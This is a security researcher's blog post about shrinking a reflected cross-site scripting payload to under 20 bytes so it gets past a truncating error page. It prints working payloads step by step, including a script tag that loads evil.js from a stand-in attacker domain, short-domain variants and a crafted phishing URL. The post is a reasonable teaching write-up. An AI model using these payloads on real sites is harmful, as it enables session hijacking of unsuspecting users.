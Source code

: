 ```yaml
---
title: "Minifying XSS"
description: How I bypassed Cross-Site Scripting sanitisation in fewer than 20 characters.
slug: minifying-xss
date: 2018-03-18T15:45:00+10:30
draft: false
categories:
- All
- Technology
- Application Security
tags:
- Penetration Testing
- Cross-Site Scripting
comments: true
ShowToc: true

cover:
  image: "hero.webp"
  alt: "A graphic of a HTML script tag fading into the background."
  relative: true
---
```



Cross-Site Scripting is still one of the most prevalent web application vulnerabilities, and has featured in each revision of the [OWASP Top 10](https://owasp.org/www-project-top-ten/) since the list was first published in 2010. Peaking at #2 in 2010, XSS was knocked off the podium for the first time in 2017, coming in at #7 on the list. This demotion may be due to the rise in popularity in Single Page Application (SPA) front-end frameworks such as React, Angular and Vue, which often include built-in sanitation to prevent these attacks.

However, where there is a will, there's a way.

While these frameworks do the heavy lifting to avoid these types of vulnerabilities, developers can ([and do](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)) bypass the framework and manipulate the DOM directly, which can introduce XSS vulnerabilities. Sometimes the frameworks [get it wrong too](http://blog.portswigger.net/2017/09/abusing-javascript-frameworks-to-bypass.html), and people find ways to circumvent these protections. Not to mention that many applications on the web are using old frameworks or are hand-rolled and are riddled with dangerous DOM manipulation, which gets pentesters like me (and probably you) excited.

As we will see, websites can remain vulnerable to XSS attacks, even if the attack is detected. You just have to get a little crafty.

## An Ironic XSS Vulnerability

I recently came across a XSS vulnerability that got me thinking. It seemed like a run-of-the-mill [reflected XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting) vulnerability; a URL parameter was injected directly into the HTML in the page which could let a baddy make a link which they could send in a phishing email and do nasty things to the victim. Something like this:

```html
https://www.mysecuresite.com/paymentDetails.html?userid=<script>someMaliciousCode()</script>
```

The site was smart enough to recognise the attack, and rather helpfully displayed a small snippet of the code in an error page to the user. The first 20 bytes of the vulnerable URL parameter were loaded into the page, and the rest were truncated. The developers of the site must have realised that 20 bytes is far too few for any useful JavaScript, thus preventing an XSS attack. Surely…

## Wait… Bytes or Characters?

Before we go on, there's something I need to clarify which will become important later on. You may have noticed that most websites use simple characters in their URLs. Domain names are mostly letters from the Latin alphabet (such as [www.medium.com](https://www.medium.com/)), and there may be some numbers and other characters like slashes and ampersands. These characters are all from the [ASCII character set](https://www.asciitable.com/), which consists of 256 characters used commonly in English speaking countries. Originally, this is all that was supported. Somebody said "thou shall only use ASCII characters in domain names", and so we did that for a bit.

But the World Wide Web is just that, its for people of all nationalities and languages. Sure, we can fit all our Latin uppercase and lowercase letters in the ASCII character set, with a few spots left over for numbers and punctuation, but what about Hebrew? What about Arabic, or Chinese? Or variations of letters which give us piñatas and Über?

Technically, this causes a problem. You see, ASCII includes 256 characters because they can be nicely represented using a single byte, or 8 bits of 1s and 0s. But if we want to include all of these other letters and symbols, we're going to need a bigger character set, which means more bytes-per-character.

A [very](http://www.developerknowhow.com/1091/the-history-of-character-encoding), [very](https://danielmiessler.com/study/encoding/) long story short, this is where Unicode comes to the rescue. Through various iterations of the [Internationalised Domain Names](http://unicode.org/faq/idn.html) specification, we can now use a subset of the Unicode character set in our domain names! This monster of a character set includes 139 different scripts, plus a bunch of symbol sets which includes, wait for it. Emoji.

Long story short, we can use emoji and other symbols in our domain names, but we have to be wary that one character does not always equal one byte, which is important when you only have 20 bytes to play with.

## Let's Begin
So we have ourselves a challenge: can we inject malicious JavaScript in just 20 bytes? The irony of an XSS vulnerability in a page that tells the user they have been saved from an XSS attack is too much of a carrot not to chase.

### Baseline
*Length:* Unlimited

```html
<script>someMaliciousCode()</script>
```

In it's most simplest form, malicious JavaScript can be inserted into a page surrounded by <script> tags. This approach is fine where you don't have any restrictions on the size of the payload, but in our case, it's not going to cut it. A [simple keylogger](https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js) can weigh in at over 300 bytes, which is waaay over our 20 byte target. In fact, if we count the number of characters in the script tags alone, we're already at 17 bytes, giving us just three left to play with. I don't know what your JS skills are like, but I can't do a lot with three characters.

### Milestone 1: Loading a script
**Length:** 50 characters

```html
<script src='https://www.1337hacker.com/evil.js'>
```

This is a more common approach for exploiting XSS in the wild. Let's put our malicious JavaScript in a file and host it on our web server. We can then make a payload which simply loads our script and has it executed by the browser. This is nice because it lets us load effectively any JavaScript in just 50 characters. We can even build up a little library of JS payloads on our web server and reuse then in different attacks. However, in this case, we're still over our limit.

### Milestone 2: Shortening our domain
**Length:** 27 characters

```html
<script src='https://a.io'>
```

Shortening our domain name goes a long way to bringing us closer to our target. The shortest [Top-Level Domains](https://en.wikipedia.org/wiki/List_of_Internet_top-level_domains) (TLDs), such as .io (Indian Ocean) or .uk (United Kingdom) are three characters long when you include the prefixed period. All we need to do is register a single character domain and we have the shortest possible Fully Qualified Domain Name (FQDN)!

It turns out a bunch of other people had the same idea, and it's pretty hard to get you hands on such a short domain name. More on this later 😉 But for now, let's continue building our Proof-of-Concept.

We've also removed the name of the file containing our naughty little script. We can do this by configuring our web server to host our script at the root of the web server, similar to how [www.reddit.com](http://www.reddit.com/) gives you the front page of the internet.

### Milestone 3: Inheriting the Protocol
**Length:** 21 characters

```html
<script src='//a.io'>
```

So. Close. It turns out, if we remove the 'https:' from the beginning of the URL, the browser will default to using the [same protocol](https://stackoverflow.com/questions/550038/is-it-valid-to-replace-http-with-in-a-script-src-http) that was used to load the parent page. For example, if we send out a link like this:

```html
http://www.mysecuresite.com/paymentDetails.html?userid=<script src='//a.io'>
```

The script will be loaded over HTTP since www.mysecuresite.com is being accessed over HTTP.

Now, if I'm being honest, I thought I was done here. Just one character shy of the target, and I thought I had reached the limit. A little disheartened, I contacted some friends and presented them with the challenge. Was there something I was missing that could get us below our 20 byte payload?

### Milestone 4: Removing quotation marks
**Length:** 19 characters

```html
<script src=//a.io>
```

As it turns out, there was! The quotation marks surrounding the URL are superfluous; the script loads just fine without them! And with that, we had come up with a Proof-of-Concept payload which would load arbitrary JavaScript into the user's browser and let us hijack their session. Pretty cool, huh!

### Hacking with Emoji

The PoC payload was enough to demonstrate that somebody with a short domain name could exploit the XSS vulnerability, which was enough to convince the developers to fix it. But where's the fun in that?

Remember that spiel about Internationalised Domain Names supporting Emoji? Well at this point, I jumped onto [https://i❤.ws/](https://xn--i-7iq.ws/marketplace/1?filter=1char) to see what the going rate was for a single emoji domain, and boy was I in for a surprise. A domain like [🤣.ws](https://xn--i-7iq.ws/aftermarket/xn--cq9h.ws) could set you back USD$50k! I looked in my wallet and remembered I'm not made of cash, so I settled for something a little less lucrative.

But, I can now say I'm the proud owner of ⚿.ws. The question remains, can I use this to exploit our XSS vulnerability? Sadly, no. The ⚿ character (squared key, for anybody whose browser doesn't support the emoji) is three bytes in size, which brings our payload to 21 bytes.

So close, yet so far…

---

So there it is, the shortest XSS payload I could come up with (with a little help) was 19 bytes with the right domain, or 21 bytes with my emoji domain. If you know of any other tricks to reduce the size, let me us know in the comments below!

---

**Thanks for reading!**  
If you enjoyed this post, follow on [Twitter](https://www.twitter.com/@JakobTheDev) or [Mastodon](https://infosec.exchange/@JakobTheDev) for more content. If you have any feedback or suggestions, leave it in the comments below and I'll do my best to get back to you.